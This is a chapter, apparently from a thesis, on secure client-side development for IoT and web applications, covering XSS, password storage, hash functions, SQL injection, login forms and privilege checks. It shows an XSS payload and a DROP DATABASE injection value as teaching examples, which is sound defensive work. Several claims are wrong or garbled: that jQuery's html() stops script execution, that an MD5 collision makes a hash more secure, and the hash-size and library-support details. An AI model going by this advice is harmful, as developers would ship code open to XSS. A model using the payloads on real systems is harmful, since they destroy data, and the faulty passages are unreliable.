	
\includegraphics[width=\linewidth]{bestpractice-img0.png}
	\caption{One possible architecture of an IoT application.}
	\label{fig:best0}
\end{figure}

In order to develop a secure IoT application we must work on both sides; we have seen, in the previous chapter, how to attack and secure the communication between IoT devices and the main server, but we have not talked about the client side.\newline

The client side of an IoT application can be developed in different way, from a web application to a stand-alone application for Desktop or smartphone.\newline
From my experience in the company, the client side is developed as a web application in order to make it available both on desktop and smartphone without the need of developing two different application.\newline
It is important to highlight that each side must be treated with care, in fact it is useless to focus only on one side and left the other completely insecure; an attacker will exploit the weak ring to compromise your application, so the overall security of your system is equal to the weak ring security.\newline
Basically, the same effort must be done on both sides of the application.\newline

In this section, we will list down and discuss the best practice that you should follow in order to write secure IoT application from the client side point of view.\newline
I want to highlight that these best practices can be applied in all application development, they are not strictly related with IoT, that is because some section of an application, like for instance: password handling are present in lots of application that may have little in common to the IoT world.\newline
I will provide code to support my discussion where possible; if the use of code is not easy, we will use pseudo-code instead.\newline

\subsection{Never trust the client}
During the development of a client/server architecture, communications between the two parts is essential, but in order to develop a bulletproof application it is important to check always data received by the server.\newline

In order to have an example in mind we will refer to the classic web application model where the client side runs on a browser like Mozilla Firefox or Google Chrome, and where the server side application is written in PhP or similar languages.\newline

Even if we develop the client, the server must performs a check of the data received; the client may be used by a malicious user or the attacker may send data to our server without the aid of the client application with tools like cUrl, Postman or Telnet.\newline

Basically, when the server receives some data, before performing any operation it must:
\begin{enumerate}
	\item Authenticate the user if required.
	\item Check if the data is conform to your business application rules.
	\item If the data provided are used in a query, sanitize them with proper function.
	\item If the user is authenticated, check if he has the privilege to execute the operation requested.
	\item Send back the result if necessary.
\end{enumerate}

Now we will discuss in the details the five points.\newline

\begin{enumerate}
	\item	Most of the time, in order to provide a service or to allow the user to perform a certain action on our web application we want to authenticate the user, but sometimes this is not true, for instance: when a user does not have an account for our application we want to provide him a way to sign in, in this particular case we are allowing a user to execute an operation without authentication, just because he does not have login credential; note that the sign in of a user is a very critical point in your application, we will discuss about it in another best practice.
	\item At this point we want to check if the data received from the user are conform to what we expect, for instance if we expect to receive a short comment limited to 260 character, we must check that the provided comment does not exceed the limit; if we are dealing with file uploaded from a user it is extremely important to check if the provided file is not a malicious one, for instance suppose that we receive an image from the user, simple control like checking the extension of a file is absolutely a bad idea, in fact the extension of a file can be changed, thus it is possible to save a malicious executable program as a .png and upload it to a remote server, a better way to check that the image uploaded is really an image is checking the magic number also known as the file signature, data used to identify or verify the content of a file.
	Note that each type of data may need particular care, file are more complex to check instead of raw data like strings or integers; the suggestion is to study in details how to sanitize the particular data you are handling.
	\item In order to avoid SQL Injection, data loss and data leak, it is important to always sanitize a data used as a parameter for a query, a SQL Injection may drop the entire DB, or could silently leak information like username or password hash (I hope you do not have password saved as plain text). Now days is quite trivial to avoid these kind of attack with the aid of prepared statement which allows us to bind parameters in query in a very safe way.
	In general, prepared statement are supported by DB library of every important programming language and most of the case can be handled nicely with them.
	Anyway there are case where using a prepared statement is infeasible, if you want to allow a user to write down a query and execute it, using a prepared statement is difficult or even impossible, so you need to manually check the provided query.
	These warnings are valid even for NoSQL system, in this particular case there are no standard like for SQL system, so it may be more difficult to avoid them considering that there are no standard techniques.
	\item It is important to check the privilege associated to a user because we do not want everyone to execute operations that may change drastically our server application or even destroy it; without proper control, even the user with lowest privilege may execute operation reserved only to user with high privilege such as an administrator.
	Basically, what we need to do is placing an if statement where we check the user’s privilege before the critical operation, of course the user’s privilege is a data taken from your DB or other verified source, so the privilege level is something that is not sent from the client in order to avoid easy privilege escalation.
	\item There is nothing to say about this point.
\end{enumerate}

The golden rule is: never trust the client.

\subsection{Always check data from the server}
As we have seen, a server must not trust input from a client and it must sanitize them before using them, from the point of view of a client could seems strange to doubt about the server, but in reality the client must treat with care data received from the server because it could be a corrupted server or even a fake server.\newline
The scenarios are the following:
\begin{itemize}
	\item An attacker has taken control of the server and uses it to send malicious data.
	\item A DNS server has been corrupted by an attacker, when a client tries to obtain the address of the legitimate server, is redirected to
	a corrupted server.
\end{itemize}

The first is more realistic because a custom server may have more flaws that could be exploited, while a DNS server has been tested for years and is managed by Internet provider which we assume (and hope) have high security standard.\newline
Let us see a flaw in a web application.

\begin{lstlisting}[language=html]
//page.html
<html>
	<meta charset="UTF-8">
	<head><title>Test</title></head>
	<body>
		<div id=”placer”></div>
		<script scr=”vuln.js”></script>
	</body>
</html>
\end{lstlisting}

\begin{lstlisting}
//vuln.js
var req=new XMLHttpRequest();
req.onreadystatechange=function(){
	if(this.readyState==4 && this.status==200){
		var placer=document.getElementById(“placer”);
		placer.innerHtml=this.responseText;
	}
};
req.open(“GET”,”malicious.php”,true);
req.send();
\end{lstlisting}

\begin{lstlisting}[language=php]
//malicious.php
<?php
	echo “<img src=1 hidden onerror=alert('VULNERABLE!')>”;
?>
\end{lstlisting}

The client side code is composed by an html webpage and a JavaScript code that perform an AJAX request to the \texttt{malicious.php} page on the server.\newline
\textbf{Note:} in this case we choosed to use an AJAX request for simplicity, but nothing forbids us from using a WebSocket.\newline
While the server simply sends back a string, but this string contains JavaScript code.\newline
The problem here is that the client, in order to show the data received from the server, to the final user copies the content of \texttt{responseText} in the \texttt{innerHtml} of the \texttt{div} with \texttt{id=”placer”}.
In this particular case the data expected to be text, in reality is an html image tag containing JavaScript code for error handling (the image will never load), this code is added to the DOM and the code executed.\newline
In this case the code is a simple alert and does nothing to harm the client, but in a real scenario the malicious script will not be something so simple.\newline
The main problem here is that the client assumed that the data was safe and copied it to the innerHtml of a DOM element without sanitizing it.\newline

The \texttt{innerHtml} attribute of a DOM element is an easy way to add content to a web page, but it is also the easiest way to introduce vulnerabilities in your page.
In order to avoid such a trivial exploit it is recommended to sanitize the input before placing it on the DOM.\newline

On the internet, you can find this nice piece of code to sanitize a string:
\begin{lstlisting}
	function sanitize(var content){
	var elem=document.createElement(“div”);
	elem.innerHTML=content;
	return elem.innerText;
	}
\end{lstlisting}


The problem about this function is that it does not provide any security, so always check what you copy and paste in your code; it does not mean that what claimed is really what the code does.\newline
There are libraries around the web that provide function to sanitize string, one of the most famous is surely jQuery, it also offer other features but the \texttt{html()} function is great to avoid unwanted code execution when you need to place data on the DOM.\newline
This could be the structure of a correct handling of data received from the server.\newline
\begin{lstlisting}
var placer=document.getElementById(“placer”);
var sanitized=realSanitize(this.responseText);
placer.innerHtml=sanitized;
//aggiungere riferimento
\end{lstlisting}
The easy way to sanitize string is to rely on well-known libraries, but if for some reason you could not use them, the solution is to write your own sanitation function that will likely use regular expression, but be careful because it could be more difficult than expected and error prone, so test your code with care before using it in a release environment.\newline

\subsection{Password handling}
Password handling is a very critical section of every application, passwords are sensible data that must be treated carefully at different level, we will analyze how to handle password from the code and database perspective.\newline

\subsubsection{Handling password in code}
A password must be handled in a special way, in lots of code you can find snippet like the following:
\begin{lstlisting}[language=java]
String username=”user0”;
String password=”mypass0”;

login(username,password);
\end{lstlisting}

The real problem here is that the password is handled as a String, in high level languages like Java or C\#, strings are immutable, this means that a string cannot be modified in any way, so even if we change the reference in this way:
\begin{lstlisting}[language=java]
password=””;
\end{lstlisting}

We are not erasing the previous password content, we are changing the reference of the variable \texttt{password}, so the previous data are somewhere in memory, and it will be overwritten only when the garbage collector mark the area of memory as free and a new data is allocated in this particular area.\newline
If an attacker can dump the process or perform cold boot attack, he can steal login credential and other sensible data.
It is important to highlight that if an attacker can perform the previous operation you also have to deal with the fact that your system is vulnerable and compromised in some ways, or that the machine where the program runs is accessible to malicious users.\newline
In order to avoid data leak, we want to reduce the exposure of sensible data in our application as much as possible.\newline
In order to overwrite a password, we need a data structure that allows this operation, the easy way is to use an array of character instead of a string just in the way we deal with string in low-level languages like C.\newline
So, the previous snippet of code change in this way:
\begin{lstlisting}[language=Java]
String username=”user0”;
char[] password={‘m’,’y’,’p’,’a’,’s’,’s’,’0’};

login(username,password);
\end{lstlisting}


The main drawback of using an array of character is that is not comfortable, it obliges us to write code a bit more complex, and we do not have access to the utility function of the string class.
When the password is no more needed in our code we need to erase the content of the password, this could be done easily with this utility function:
\begin{lstlisting}[language=Java]
	public void destroy(char[] arr){
		for(int i=0;i<arr.length;i++)arr[i]=’0’;
	}
\end{lstlisting}

Always remember to erase the data when it is no more needed, otherwise all the work done to secure the password handling is wasted.\newline
\textbf{Note:} when you are dealing with a password, it is likely that you want to hash or encrypt it, most of the times cryptographic libraries deals with array of byte, converting an array of char to an array of byte is trivial so designing your system with this knowledge in mind could help you.\newline
Also remember that if you convert an array of character to an array of byte, the previous one is no more needed so erase its content and deal with the second one until you have finished your task, and remember to erase even this one.\newline
Basically, what we are trying to do is limiting the exposure of sensible data in memory as much as possible; of course if an attacker dump the process when the password is exposed there is no way to avoid the leak, but with this little trick we can make the task more difficult.\newline
Sometimes it may not be possible handle a password in this way for lots of different reason.\newline
For example in high level scripting language like JavaScript the primitive type char does not even exists, there is no easy way to handle a password without a string, you may think to handle it like an array of numbers, but it may be an overkill.\newline
Another example is the bad design of a library, suppose that you buy an API that require a login and the signature of the login function is the following:
\begin{lstlisting}
void login(String usr, String pwd);
\end{lstlisting}

In situation like that, there is nothing we can do, we cannot edit the signature and we must adapt our code in order to provide a String to the function.\newline
Handling the password like a character array is meaningless if you then need to convert it to a String.\newline

In C\# there is a special object called \texttt{SecureString} it provides a way to deal with password in a secure way, the content of a string is created via insert of single character, and the content of the string is encrypted in memory.\newline
It seems like a great way to deal with password but some of the API of C\# that requires a password as argument expect a String, so the utility of this object is not so high, also note that it does not provide any access to the content of the string (and sooner or later we will need to use the content), the only way to access it is to convert the \texttt{SecureString} object to a String with the aid of the static method \texttt{SecureStringToGlobalAllocUnicode(…)} of the \texttt{Marshal} class, which returns a \texttt{IntPtr} that can be converted in a \texttt{String} with the static method \texttt{PtrToStringUni(…)} of the \texttt{Marshal} class, but doing that simply throws away all the effort made in order to secure the password in memory considering that we are dealing again with a \texttt{String}.\newline

\subsubsection{Handling password in database}
Passwords are, most of the times, stored in a database; we are not interested in specifying which one because what we are about to say is valid for every system.\newline
The first thing we want to highlight is: do not store password as plain text in your database.\newline
If you store password as plaintext in your database, and an attacker steal your data, you are allowing access to your system freely.\\

Suppose that you are dealing with an e-commerce website, if an attacker could access as the user X it is likely it will be allowed to buy items with the credit card of X, or even steal the credit card number.\\
This will translate in problem and hassle for the user and an even big problem for you, and we have not even talked about the damage of image for your company, if the affair become of public domain (and it will, sooner or later).\\
In order to store password in a secure way we need three ingredients:
\begin{enumerate}
	\item A cryptographic hash function or a key derivation function.
	\item A salt generated from secure pseudo-random number generator.
	\item Number of iteration.
\end{enumerate}

A cryptographic hash function is a special hash function that map data of arbitrary size to a bit string of fixed size, designed to be one-way, in other word a function that is infeasible to invert.\\
A key derivation function is a cryptographic function that derive a secret key from a secret value such as a password.\\
The main difference between the two is that a key derivation function has a randomness property that is absent in a cryptographic hash function.\\
From now on, we will refer to both with the term hash function in order to make our exposure a bit more clear.\\
A salt is a sequence of random bit used together with the password as input for the hash function, when we say random we are referring to value generated with secure pseudo-random number generator, the common random number generator provided by all the standard library of programming languages are not appropriate for this kind of task.\\
The number of iteration is simply the number of time a particular hash function is executed in order to produce the output, we will talk about it in details in a few moments.\\

Storing a password as hash is recommended because if someone steal your database, it may be capable of reading the users’ records, on the other hand he will not be able to login because the password is not stored as plain text but as hash.\\
The login procedure (server side) takes a plain text password, calculates the hash from it and compares it with the one stored in the database; if the two hashes are the same, then the access to system is granted, otherwise it is not.\\
In other words, the only way to access the system with the credential of another user is to steal them with social engineering’s technique, guessing it with a dictionary attack or cracking it with a brute force attack.\\
Note that if an attacker has access to the database he can find users with the same password hash, this means that different users have the same password, so stealing the password of user1 means stealing also the password of user2.\\
If an attacker has stolen a database and crack the password of user X, it could be that the user X use the same password for different services, so if the attacker is able to break one hash he could gain the access even to other system, in this case is not only a fault from the development team but also from the users that used the same password.\\
There are also brute force attack that are particularly efficient because they work with large pre-computed hash table known as rainbow table; in order to avoid this attack we need to introduce a salt in order to make the use these table useless.
To avoid this kind of attack we are adding a random value known as salt in order to produce a different output every time the hash function is executed with the same password as input.\\
The salt is a value that must be saved with the hash, otherwise we will not be able to produce again the hash that match the one saved on the database.\\
It is not mandatory to maintain the salt secret, it can be saved in the database, or it can be saved separately.\\
With the aid of salt, we can make useless the use of a rainbow table because the attacker must know the salt, only after that he knows it can start a brute force attack that may takes a lot time if the password is not trivial.\\

It is also important to iterate the hash function a certain number of time in order to slow down the cracking attempt of an attacker.\\
First of all if the number of iteration is not known, the attacker must try all the password and hash them $n$ times, where $n$ is the number of iteration he has esteemed, so he must try blindly.\\
The number of attempts can be saved on the users’ record without problem, of course if an attacker steal your database he will know the value of $n$, but if all the precaution are applied he basically has no way to try a brute force attack that will takes lot of time.\\
It is important to design your system in a way that allow to customize the number of iteration during the years, that is because the computational power increases every year, so if a number of iteration $m$ was safe two years ago, it may be insecure nowadays, if you design your application in a good way you can simply tune up it up from a configuration file, also remember to implement a routine that check if the iteration number of an hash in the database is coherent with the one present in the configuration file, in order to update it and allow the login to the user.\\


The code that perform the login could be something similar to the following snippet:
\begin{lstlisting}[language=Java]
Var username=”user”;
var password={”p","a","s","s","w","o","r","d”};
Var iter=readIterationFromConfigFile();
Var user=getUserFromDB(username);
if(user==null)return error;

var hash=hashFunction(password,user.salt,user.iter);
if(hash!=user.password)return error;

if(iter!=user.iter){
	var newSalt=SecureRandomNumberGenerator.generate();
	Var newHash=hashFunction(password,newSalt,iter);
	updateUserInDB(username,newHash,newSalt,iter);
}
return access granted;
\end{lstlisting}

Until now we have been generic about which hash function to employ, for this reason here an overview of the most common hash function.

	\begin{table}[h!]
	\begin{center}
		\begin{tabularx}{\textwidth}{|l|l|}
			\hline
			\textbf{Cryptographic hash functions} & \textbf{Key derivation function}\\\hline
			MD5 & Scrypt \\
			SHA & PBKDF2 \\
			Bcrypt & \\
		\end{tabularx}
		\caption{Some hash functions available.}
		\label{tab:table11}
	\end{center}
\end{table}

\paragraph{MD5} is a hash function producing a 128 bit output.\\
It is considered an insecure function because it suffer from extensive vulnerabilities.\\
Even if the vulnerability is known by some years it remains in use.\\
The main vulnerability is about collision, generally when a collision is found; the hash function is more secure.\\
So if you need to choose a hash function for your application, do not choose MD5\cite{md5}.\\


\paragraph{SHA} is a family of cryptographic hash function composed by:
\begin{itemize}
	\item SHA-0 - It was the first algorithm that produced a 160 bit hash, it was marked as insecure shortly after its publication.
	\item SHA-1 - It was released shortly after SHA-0, it produce a 160 bit hash, from 2010 it is no more considered secure for cryptographic uses.
	\item SHA-2 - It is a sub-family of hash function, with different block size: 256 and 512.
	There are also truncated version with block size of 224 and 384.
	\item SHA-3 -It is a hash function with different block size: 256 and 512, its internal structure is completely different from the rest of the SHA family.
	We will not consider SHA-0 and SHA-1 as candidate because they are not secure as cryptographic hash function, SHA-1 is still used for other tasks such as MAC\cite{sha}.
\end{itemize}


\paragraph{Bcrypt} is based on the Blowfish block cipher algorithm and it is a password hashing function.\\
In order to use it we must provide: a password, a salt and the number of iteration.\\
This function is designed to be slow on hardware like GPU, in order to achieve this result, Bcrypt heavily rely on accesses to a table which is altered during the execution of the algorithm, this is fast on a CPU, but in a GPU this translate in a slowdown due to the fact that the memory is shared by all the cores and they compete for the control of the memory bus.\\
On the other hand Bcrypt is weak to ASIC attack considering that it is possible to implement Bcrypt in ASIC efficiently\cite{bcrypt}.


\paragraph{Scrypt} is a key derivation function designed to make it costly to perform large scale custom hardware attacks by requiring a large amount of memory.\\
Scrypt can be considered as an evolution of Bcrypt because it is similar to it.\\
In order to use this function we need to provide: a password, a salt and the number of iteration.\\
The output produced by this function can be used as a hash and also as a cryptographic key.\\
Scrypt is considered memory intensive because it creates a lot of pseudo-random number that are used few times during the computation, generating the number is computationally intensive and it makes sense to store them in RAM instead of re-computing them on the fly\cite{scrypt}.\\


\paragraph{PBKDF2} is a key derivation function that applies a pseudo-random function, such as HMAC.
In order to use this function we need to provide: a password, a salt and the number of iteration.\\
The output produced by this function can be used as a hash and also as a cryptographic key.\\
PBKDF2 is strong against brute force attack due to the variable number of iteration and thanks to the salt it is also resistant to rainbow table attacks.\\
PBKDF2 is weak to attacks performed with ASIC or GPU, in fact this function need very little RAM, thus brute force attack with these specific tools are relatively cheap and they can provide good performance during a password cracking task\cite{pbkdf2}.\\

Therefore, I suggest using Bcrypt or PBKDF2, they are reliable and supported in most cryptographic library.\\
The standard library for high level languages like Java or C\# offers good support for cryptographic function, on the other hand if you work with low level languages like C or C++ I suggest you to rely on a cryptographic library.\\


In table \ref{tab:table12} there is a list of natively supported hash/key derivation function for different languages.\\

	\begin{table}[h!]
		\begin{center}
			\begin{tabular}{|c|c|c|c|c|}
				\hline
				- & \textbf{Bcrypt} & \textbf{Scrypt} & \textbf{PBKDF2} & \textbf{SHA-2}\\\hline
				\textbf{Java} & No & No & No & Yes, only SHA-256 \\\hline
				\textbf{C\#} & No & No & Yes & Yes \\\hline
				\textbf{PhP} & Yes & No & Yes & Yes \\\hline
				\textbf{C/C++} & No & No & No & No \\\hline
				\textbf{Node/JavaScript} & No & No & No & No \\\hline
			\end{tabular}
			\caption{Availability of hash functions in the standard library of common programming languages. }
			\label{tab:table1}
		\end{center}
	\end{table}

\subsubsection{Handling password embedded in the code}
Sometimes it is possible to find sensible data inside a program, think about the last time you wrote an application which connects to a database, where did you stored the credential to access it?\\
Most of the time these data are hard-coded in the program, sometimes they are stored as plain text in configuration file.\\
Using an encrypted configuration file is not a good idea because you need to store a key somewhere, and often the key is hard-coded in the program so there is no difference with the two previous options.\\

Also note that hard coding credential in your code is a bad practice because you will need to compile again the application if you change them, another thing to keep in mind is that your code is likely to be saved on versioning system like Git or Subversion, if one of this system is violated, then an attacker can read your code and steal your credentials.\\

We will list the possible way to store passwords or keys in a secure way, from the best to the worst.\\
\begin{enumerate}
\item Hardware security module - An HSM is a product designed to store credential, private key and sensitive data in general.
The main drawback of a HSM is its cost, an entry level HSM may cost you at least 2000€, and then you also need to take care to implement it in your system.
\item Trusted platform module - A TPM is microprocessor specifically designed to perform cryptographic operations.
It could be seen as a cheap alternative to a HSM.
\item Encrypt the sensitive data with the login password of your OS.
This could be a good solution if your OS stores your login password in a secure way and it is possible to access it in order to derive a key that will be used to encrypt the configuration file.
Windows has API that allow you to perform these kind of tasks.
\item Store the sensible data in a different machine.
In this case the application does not have the credential available and it must receive them from another machine at runtime, you are moving the problem to another machine because you will need to find a way to store these sensitive data, also note that the communication must be encrypted and that if the remote machine is unreachable the main application is susceptible to denial of service.
\item Hardcode the sensitive in your code.
This is not a good solution but it can defend you from script kiddies that are not able to analyze your code with an hex editor or a disassembler.
\item Save the sensitive data in a plain text configuration file.
Are you serious?
\end{enumerate}

Storing credential is not an easy task because you need to take into account: cost, security and ease of implementation.\\
Cost is very important because it is strictly tied to the security level you want to achieve, using an HSM is surely the best option from a security point of view, but for a small development team its cost may be prohibitive.\\
It is necessary to find out a trade off that makes possible to achieve good security but also respect the budget, also take into account that some solutions could be an overkill for the environment of your application.\\

\subsubsection{Handling password from the user point of view}
Most of the time a user password is very simple, and “password” is always in the top ten easiest password to crack.\\
Even if we use a secure system, the weak link is, most of the time, the user.\\
Enforcing the use of complex password with uppercase, lowercase letter, at least one special character and a number is not a great idea for three reason:
\begin{enumerate}
	\item It will be difficult to remember for the user.
	\item An attacker knows the structure of the password.
	\item The user will use "Password1!".
\end{enumerate}

When a password is difficult to remember it is likely that the user will write it down on paper or save it on a plain text file on his computer.\\
On other hand if an attacker knows the structure of the password it can focus only on certain combination and having a little speed up during the cracking process.\\

I suggest to avoid mandatory complex password because I think is not a good way to provide security, instead I suggest to use long easy to remember password, in fact the length of a password could save us from a brute force attack quite easily.\\
Do not impose a limit on the maximum length of the password, but impose a minimum length of at least 8 character, even if 8 character are easy to crack.\\
The following password can be cracked easily with a modest system:
\texttt{“qv£a/l4p” – 8 characters password}.\\
In addition, it is difficult to remember, on the other hand a simple password like:
\texttt{“lion cucumber skateboard snake beer” – 36 characters password}.\\
Is difficult to crack and easy to remember.

\subsection{Never write your own cryptographic function}
When dealing with cryptographic function, is not a good idea to implement a certain cryptographic function from scratch, but it is better to use a cryptographic library that implements it.\\
Dealing with cryptographic function is not easy and it requires lots of care in order to avoid bugs that could lead to serious security issues in future.\\
Of course, a library could be bugged, but behind well-known libraries there are expert programmer and we assume that they are secure and overhauled.\\

Another thing to notice is that you should not create your own cryptographic schema, even if it may seems unbreakable to you, it does not mean it is in reality.\\
A secure cryptographic scheme is created by expert in cryptography and analyzed by other expert and it could take some years before a scheme is considered secure.\\
Also take in mind that security through obscurity is not a good idea, even if you create your cryptographic scheme and you take it secret, it does not mean it can not be cracked.\\
In this case it is appropriate to remember the second Kerckhoffs's principle:
A cipher should not require secrecy, and it should not be a problem if it falls into enemy hands.\\

\subsection{Preventing SQL Injection}
SQL Injection is one of the most famous attack performed over the last 20 years.\newline
It simply relies on the negligence of programmer that trust user's input, if the input is used to perform
a query on a DB, the consequences can be devastating.\newline

An example of SQL Injection is the following:

\begin{lstlisting}
	String query="SELECT * FROM X WHERE Y="+param+";
	
	execute(query);
\end{lstlisting} 

The parameter \texttt{param} is concatenated with the query string without any control, if the content of this variable is, for instance:
\texttt{'"bobby"; DROP DATABASE db;'} the query will be performed, but another one will be performed too ... and it will drop the database.\newline

Of course, it is also possible to leak data with this kind of technique and it could be done silently without any harm to the DB, so it will be quite difficult to
find out a data leak in this condition.\newline

In order to avoid this kind of attack, the programmer must check every parameter that is concatenated in the query string in order to be sure that nothing that could harm
the system is concatenated in the query.\newline
There are four general case that we must take care:
\begin{itemize}
	\item String - a string must be enclosed in quotes and special characters have to be escaped; or the string must be hex-encoded.
	\item Numbers - a number must contain only digits, a decimal delimiter and a sign.
	\item Identifiers - an identifiers must be enclosed in backticks and special character have to be escaped.
	\item Operator and keyword - there is no general rule, they have to be legitimate operators and keywords.
\end{itemize}

Checking every parameter in a manual way is not a great idea for three reason: it is boring, will bloat your code and it is likely that you forget to check
some parameters; for these reason we need an automatic way to check the input, another approach that is quite more reliable is based on Prepared Statement,
a prepared statement is a particular object that allows the execution of certain statement repeatedly with high efficiency.\newline
A particular feature of prepared statement is that query and parameters are sent to the DB server separately, basically we are sending a program to the server and then its input;
and we are no more mixing the two things together.\newline

In general, a prepared statement works in this way:

\begin{lstlisting}
String query="SELECT * FROM X WHERE Y=?";

PreparedStatement ps=new PreparedStatement(query);
ps.bind(0,"pippo");

execute(ps);
\end{lstlisting}

The ? is used as placeholder and then a parameter is bind to its place.\\

The general rule is: when dealing with dynamic input data, use a prepared statement and you \emph{should} be safe.\\
I said \emph{should} because there is one little details that is not always mentioned while talking about prepared statements,
a prepared statement supports only two kinds of literals: string and number, so identifiers, operator and keyword are left uncover.\cite{phpinj}\\
There are also cases where a prepared statement is not good at all, for example if the query is dynamic, there is no way to use a prepared statement
easily, in this case the programmer should implement the feature with particular care.\\

In order to avoid damages to the DB if a SQL injection occurs it is recommended to use permission on tables in order to deny certain dangerous operations
for the user that executes the query on the DB, this also means that you should design the user's privilege in order to be the lowest as possible.\\ 


\subsection{Writing a secure login form}
Writing a login form is one of the most common task that a developer, sooner or later may face in his career.\\
So writing it in a secure way is important, in this chapter we will show that using the proper hash function is not enough.\\
The first thing we want to highlight is that the communication between client and server must be encrypted, otherwise an attacker could steal the credential in a very trivial way.\\
If you are dealing with a web application, always remember to send login credential with a POST request, otherwise with a GET request username and password will be encoded in the URL.\\
We will start from this basic login code (server side).\\
\begin{lstlisting}[language=Java]
bool login(String username,char[] password){
	int iter=readIterationFromConfigFile();
	User user=getUserFromDB(username);
	if(user==null)return false;
	String hash=hashFunction(password,user.salt,user.iter);
	if(hash!=user.password)return false;
	if(iter!=user.iter){
		String newSalt=SecureRandomNumberGenerator.generate();
		String newHash=hashFunction(password,newSalt,iter);
		updateUserInDB(username,newHash,newSalt,iter);
	}
	return true;
}
\end{lstlisting}



This is a good starting point, but we need to add some little details in order to avoid: time attack and denial of service.\\
A time attack is a side channel attack that allows an attacker to infer some information based on the time elapsed from the start of a request and its end.\\
In the particular case of a login task, an attacker could infer if an account exists or not.\\
As you can see from the code, if the user is not on the database the function will return false and will not execute \texttt{hashFunction(…)} and the rest of the code.\\
If we measure the time elapsed we will notice some difference when a username exists and when it does not.\\
In order to avoid these kind of attack we just need to execute \texttt{hashFunction(…)} even if the username does not exists; in that way we can trick the attacker without providing him valuable information.\\
Let us fix the previous code.\\
\begin{lstlisting}[language=Java]
bool login(String username,char[] password){
	int iter=readIterationFromConfigFile();
	User user=getUserFromDB(username);
	if(user==null){
		String salt=”use this as salt”;
		String hash=hashFunction(password,salt,iter);
		return false;
	}
	String hash=hashFunction(password,user.salt,user.iter);
	if(hash!=user.password)return false;
	if(iter!=user.iter){
		String newSalt=SecureRandomNumberGenerator.generate();
		String newHash=hashFunction(password,newSalt,iter);
		updateUserInDB(username,newHash,newSalt,iter);
	}
	return true;
}
\end{lstlisting}

We just need to perform the hash with dummy data in order to have a consistent execution time even if the username does not exists.\\
Denial of Service attack are more common and there is no standard technique to avoid them, for this reason it is difficult to protect against them.\\
A brute force attack could become a DoS if the rate of login attempt is very high, so we will also cover 
An attacker will realistically use an automated tool to perform a DoS attack, the tool will fill the form automatically and perform the request, but you can insert an hidden field, if compiled you can assume that the login attempt was tried by a bot and not by a real user and avoid the allocation of resource to perform the login; this is, of course, a simple trick, if the attacker notice it, he can simply change his tool, but this could stop some script kiddie.\\
A more sophisticated technique could be adding a certain amount of time delay every time a login attempt fails in order to slow down the attacker.\\
Locking a certain account is a bad idea because in this way an attacker can lock lots of legitimate user to access a certain service, this could also lead to a damage image for your company and make your user angry.\\
It may sounds like good deal to block a certain account if you are dealing with sensitive data or money, for example it could be reasonable that a bank will lock your account if it notice too much login attempts, but the bank must offer a way to notify you about that and a way to securely unlock your account.\\
Here in Genoa, there is a famous bank that lock your account after five wrong login attempts, and the only way to unlock the account is to go to bank and talk to an employee that will unlock your account; now suppose that I am abroad, someone lock my account and I need my money for some reason, how am I supposed to unlock it?
Think twice before implementing a locking mechanism. \\

Also, blocking a specific IP address is not a solution, as you may know the Network Address Translation (NAT) is very common in the Internet, so if you block a specific IP you are not blocking a particular user but a group of user that present themselves with that specific IP.\\
Another trick is to add a CAPTCHA after certain amount of login failed, but be sure to add OCR-hard CAPTCHA otherwise an attacker can trick you.\\

\textbf{Note:} this is more related to the presentation of your login form but when you need to notify the user that the login was not possible, do not specify why, if you specify that the username did not exists or that the password was wrong you are literally helping the attacker, of course for a real user would be more helpful to know if he wrote wrong his username or his password but for security reason we suggest you to be vague as possible and show the following error message: “Wrong username or password”.

\subsection{Handling user privilege}
In a typical client server scenario, checking if a certain user has the privilege to perform a certain operation is crucial to avoid damage to the system and security flaws.\\

I want to highlight that the control logic must be on the server side of the application, the client side could be corrupted or modified by an attacker in way that allow him to perform operation that are reserved to high privilege user.\\

Control logic client side can be implemented but keep in mind its main feature is to provide a good user experience to the final user and to avoid useless request to the server, thus if he tries to perform a forbidden operation the application shows an error message, but if an attacker modifies it, it is possible that the error message would not show anymore, but the operation is not performed on the server side.\\

Here we will show you an example of wrong handling of user privilege.\\
\textbf{Note:} we assume that \texttt{performAdminTask(…)} sends a request to the server that triggers the execution of the server side code.

\begin{lstlisting}
//client side
if(role==Admin)
	performAdminTask(username,password);

//server side
eraseDatabase();
\end{lstlisting}

This first example of server side code is insecure because it does not even check if the credential used to perform the operation are valid, it may seems strange that someone will write a code like that, but it is possible, maybe the developer forgot it or he did not know nothing about security.\\

\begin{lstlisting}

//Client side code
performAdminTask(username,password);

//Server side code
eraseDatabase();
if(login(username,password)){
	eraseDatabase();
}
\end{lstlisting}

The second example at least check if the user exists but does not check if the user has the permission to execute the task.\\
Now we will show you another example where the control logic is on the client side, as before we assume that \texttt{performAdminTask(…)} sends a request to the server that triggers the execution of the server side code.\\

In this case the control logic is only on the client side, so the server is blindly accepting every request that the client send because it trust the client, but as just said: never trust the client.\\
Another example of wrong handling is the following(as before the \texttt{performAdminTask(…)} triggers the execution of server side code).\\

\begin{lstlisting}
//client side
performAdminTask(username,password,role);

//server side
if(login(username,password) && role==Admin)
	eraseDatabase();
\end{lstlisting}


In this case we are near to a correct solution, but we are trusting the client, if the client tells the server that he is an administrator, then the server will trust him and perform the action.\\
This is not good because the server must not be tricked in such an easy way, in order to really trust the role associated to a user we need to rely on a secure source of information, and in this case the source is the server itself.\\
You must design your application in way that minimize the exchange of sensible data between the client and the server, in order to perform action on the server we just need to send the username and the password (and other parameter if needed), everything else must be on the server.\\
The correct way to check for user privilege is the following:

\begin{lstlisting}
//client side
performAdminTask(username,password);

//server side
if(login(username,password) && getRoleFromDB(username)==Admin)
	eraseDatabase()
\end{lstlisting}

Note that when the client/server application relies on a browser for the client side, it is trivial to edit the code and perform dangerous operation on the server if it is not properly secured.\\
If your client is a standalone application it could be more difficult to edit in order to send malicious request to the server, but do not rely on this assumption, always secure your server.\\
Also note that data may not come from your client, an attacker could forge request easily with tools like cUrl, Postman or Telnet.\\
What we have seen at the moment is an approach that could work, but does not respect the least privilege principle.\\
This principle states that a user must have only those privileges which are essential to perform its intended function.\\
Basically, if an administrator is working on a simple text file and it only requires the privilege to edit and save this file, he does not need to have the privilege to perform operation on a database; if in future he will need to perform operation on a database then the privilege shall be granted to him and revoked after the operation has been performed.\\
